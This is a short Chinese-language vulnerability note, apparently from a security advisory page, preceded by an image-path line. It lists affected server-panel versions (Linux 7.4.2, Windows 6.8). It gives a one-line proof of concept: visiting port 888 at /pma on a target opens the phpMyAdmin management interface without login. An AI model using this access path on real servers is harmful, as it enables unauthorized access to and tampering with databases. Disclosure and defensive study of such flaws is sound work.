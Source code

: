 ### 漏洞范围

Linux面板7.4.2 Windows面版6.8

### 漏洞POC

访问：

```
http://ip:888/pma
```

即可成功进入phpMyAdmin管理界面 （需要安装了phpmyadmin）